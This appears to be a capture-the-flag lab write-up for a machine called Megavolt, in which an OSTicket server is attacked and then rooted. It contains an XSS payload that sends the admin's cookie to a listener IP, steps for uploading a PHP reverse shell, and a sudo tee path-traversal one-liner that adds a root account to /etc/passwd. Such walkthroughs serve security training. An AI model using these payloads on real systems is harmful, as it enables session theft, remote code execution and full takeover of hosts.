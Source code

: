 # Megavolt

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.183.115
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 13:29 +08
Nmap scan report for 192.168.183.115
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE
22/tcp open   ssh
80/tcp open   http
```

We can start proxying traffic through Burp.&#x20;

### OSTicket --> XSS Admin Cookie

Port 80 hosted an OSTicket instance, which has a lot of vulnerabilities and exploits:

<figure><img src="../../../.gitbook/assets/image (98) (8).png" alt=""><figcaption></figcaption></figure>

I  registered a new user and opened a ticket. When I viewed the status, it seems that an 'Alfred Smith' closes the tickets:

<figure><img src="../../../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

This confirms that a user is indeed viewing the tickets, and we can try to use an XSS exploit for it. The file upload function is vulnerable to an XSS exploit:

{% embed url="https://www.exploit-db.com/exploits/47224" %}

We can upload this HTML file to steal the administrator's cookie:

{% code overflow="wrap" %}
```markup
<script>new Image().src='http://192.168.45.208/?cookie=' + encodeURI(document.cookie);</script>
```
{% endcode %}

As soon as we upload the file and submit a new ticket, we get this on a listener port:

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

Using this cookie, we can then login to OSTicket at `/scp` by changing our cookie within Burp:

<figure><img src="../../../.gitbook/assets/image (25) (1) (1).png" alt=""><figcaption></figcaption></figure>

### OSTicket RCE

Within the settings of the Admin Panel, we can find the version of OSTicket running:

<figure><img src="../../../.gitbook/assets/image (19) (9).png" alt=""><figcaption></figcaption></figure>

This version is vulnerable to an RCE exploit. To exploit it, we first need to enable the plugin that stores attachments within the file system of the machine:

<figure><img src="../../../.gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>

Afterwards, in the settings, make sure to change the Attachment settings:

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

Then, we need to open a new ticket and upload a PHP reverse shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

View the ticket from the Administrator account:

<figure><img src="../../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

If we click on the attachment, it would generate a GET request to the `file.php` file with a key:

<figure><img src="../../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

This is the URL key, and we need one more key which is the File key. This can be generated by doing the following:

```
$ php -a 
Interactive shell

php > $sha1 = base64_encode(sha1_file('shell.php', true));
php > print(str_replace(array('=','+','/'), array('','-','_'), $sha1));
Y2_qPxdA2XMAeDyyloBdYykx9uE
```

Then, we can finally use this repository's script to trigger the shell:

{% embed url="https://github.com/Und3r-r00t/osticket-shell" %}

The exploit took me quite a few times before it worked. If it doesn't work, upload your shell with a different name. In my case, `shell.php` worked.&#x20;

<figure><img src="../../../.gitbook/assets/image (17) (2).png" alt=""><figcaption></figcaption></figure>

The script would brute force every possible directory that the PHP shell is in before executing it:

<figure><img src="../../../.gitbook/assets/image (27) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Tee + Wildcard --> Root

We can check our `sudo` privileges on the machine:

```
bash-4.2$ sudo -l 
Matching Defaults entries for apache on megavolt:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User apache may run the following commands on megavolt:
    (ALL) NOPASSWD: /usr/bin/tee /var/log/httpd/*
```

Because there's a wildcard there, we can basically run `tee` to write to any file we want. First, generate a new password hash:

```
$ openssl passwd -1 hello123
$1$/l2LqOov$SE/j5UXGMIShXVQVjiEjJ.
```

Then, write this to the `/etc/passwd` file using this one-liner:

{% code overflow="wrap" %}
```bash
(cat /etc/passwd && echo 'innocent:$1$/l2LqOov$SE/j5UXGMIShXVQVjiEjJ.:0::/root:/bin/sh') | sudo tee /var/log/httpd/../../../../../../etc/passwd
```
{% endcode %}

This would add our new entry into the `/etc/passwd` file and we can `su` to become `root`:

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
